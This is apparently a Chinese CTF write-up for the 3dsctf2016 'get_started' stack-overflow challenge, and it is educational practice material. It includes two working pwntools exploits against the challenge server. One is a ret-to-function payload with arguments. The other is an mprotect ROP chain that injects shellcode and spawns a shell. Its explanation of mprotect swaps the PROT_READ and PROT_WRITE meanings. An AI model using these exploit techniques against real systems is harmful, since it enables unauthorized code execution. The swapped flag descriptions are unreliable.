 ```yaml
---
layout: post
title:  get_started
date:   2021-01-30 00:01:01 +0300
image:  2021-01-30-dandelion.jpg
tags:   [ctf,PWN,3dsctf2016]
---
```


主函数

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

get_flag()

```assembly
void __cdecl get_flag(int a1, int a2)
{
  int v2; // eax
  int v3; // esi
  unsigned __int8 v4; // al
  int v5; // ecx
  unsigned __int8 v6; // al

  if ( a1 == 814536271 && a2 == 425138641 )
  {
    v2 = fopen("flag.txt", "rt");
    v3 = v2;
    v4 = getc(v2);
    if ( v4 != 255 )
    {
      v5 = (char)v4;
      do
      {
        putchar(v5);
        v6 = getc(v3);
        v5 = (char)v6;
      }
      while ( v6 != 255 );
    }
    fclose(v3);
  }
}
```

我们想通过栈溢出，使得程序直接返回到if语句中的v2 = fopen("flag.txt", "rt");处。但是测试发现行不通。

又因为if判断中的两个变量就是get_flag()函数的参数，所以我们想到可以使栈溢出带参数。

```assembly
from pwn import *

io = remote("node3.buuoj.cn",27711)

flag = 0x080489A0
exi = 0x0804E6A0
# p1 = 0x308CD64F # 814536271
# p2 = 0x195719D1 # 425138641
p1 = 814536271
p2 = 425138641
payload = "a" * 0x38 + p32(flag) + p32(exi)
payload += p32(p1) + p32(p2)
io.sendline(payload)

io.interactive()
```

这里get_flag()函数的返回地址是不能乱写的，如果程序异常退出就不能回显flag。

所以我们使他返回到exit()函数。

后来查阅资料，发现还有一种万能解法。

```assembly
int mprotect(const void *start, size_t len, int prot);
```

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

prot可以取以下几个值，并且可以用“|”将几个属性合起来使用：

1）PROT_READ：表示内存段内的内容可写；

2）PROT_WRITE：表示内存段内的内容可读；

3）PROT_EXEC：表示内存段中的内容可执行；

4）PROT_NONE：表示内存段中的内容根本没法访问。

需要指出的是，指定的内存区间必须包含整个内存页（4K）。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍。
如果执行成功，则返回0；如果执行失败，则返回-1，并且设置errno变量，说明具体因为什么原因造成调用失败。

所以如果发现程序中有mprotect()函数，就可以试一下此方法。

```assembly
from pwn import *

io = remote('node3.buuoj.cn',27711)

mprotect = 0x0806EC80
buf = 0x80ea000
pop_3_ret = 0x0804f460
'''
.text:0804F460         pop     ebx
.text:0804F461         pop     esi
.text:0804F462         pop     ebp
.text:0804F463         retn
'''
read_addr = 0x0806E140
 
payload = 'a'*56 +p32(mprotect) + p32(pop_3_ret)
payload += p32(buf) + p32(0x1000) + p32(0x7)
payload += p32(read_addr) + p32(buf)
payload += p32(0) + p32(buf) + p32(0x100)
io.sendline(payload)
 
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
io.sendline(shellcode)

io.interactive()
```

